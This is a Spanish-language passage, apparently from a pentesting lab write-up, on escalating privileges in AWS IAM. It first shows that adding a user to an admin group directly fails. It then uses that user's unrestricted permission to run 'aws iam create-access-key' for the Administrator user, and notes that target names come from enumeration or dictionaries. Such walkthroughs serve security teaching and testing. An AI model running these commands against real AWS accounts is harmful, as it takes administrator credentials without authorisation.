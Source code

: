 ### &#x20;Explotación

Si se intenta añadir al usuario directamente al grupo de administradores no se podrá, generará un error

{% code overflow="wrap" %}
```
aws iam add-user-to-group --group-name Group-Root-Admin --user-name privesc4-CreateAccessKey-user --profile privesc4
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (40) (1).png" alt=""><figcaption></figcaption></figure>

Pero como el usuario <mark style="color:green;">**privesc4-CreateAccessKey-user**</mark> tiene la política de crear llaves de acceso de cualquier usuario ("Resource" : "\*"), entonces se puede crear llaves para un usuario administrador:

{% code overflow="wrap" %}
```bash
aws iam create-access-key --user-name Administrator --profile privesc4
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (27) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
Es importante saber el nombre del usuario a generar la llave en el parámetro `--user-name <Name>`

Se podrían conocer los usuarios por medio de enumeración de IAM o por algun diccionario.
{% endhint %}

